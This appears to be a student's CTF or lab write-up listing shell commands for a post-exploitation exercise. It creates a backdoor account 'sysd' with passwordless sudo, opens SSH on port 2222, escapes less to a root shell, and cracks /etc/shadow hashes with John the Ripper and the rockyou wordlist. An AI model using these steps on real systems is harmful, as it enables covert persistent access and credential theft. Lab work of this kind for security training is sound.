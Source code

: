 # Unit 6
## Justin Cremer

### Step 1

1. sudo useradd -M sysd 
2. sudo passwd sysd 
3. sudo usermod -u 1020 sysd 
4. sudo groupmod -g 1020 sysd 
5. sudo usermod -aG sudo sysd \
   sudo visudo 
   [append :: sysd ALL=(ALL) NOPASSWD:ALL] 
6. su sysd \
   sudo -l

### Step 2

1. sudo nano /etc/ssh/sshd_config \
   [append :: Port 2222]

### Step 3

1. sudo systemctl restart sshd.service 
2. exit 
3. ssh sysd@[ip address] -p 2222 
4. sudo less [any file] \
   !/bin/bash \
   su root

### Step 4

1. [same as in last step] 
2. cd ~/CTF && wget https://www.scrapmaker.com/data/wordlists/dictionaries/rockyou.txt \
   john --wordlist=/home/student/CTF/rockyou.txt /etc/shadow \
   john --show /etc/shadow

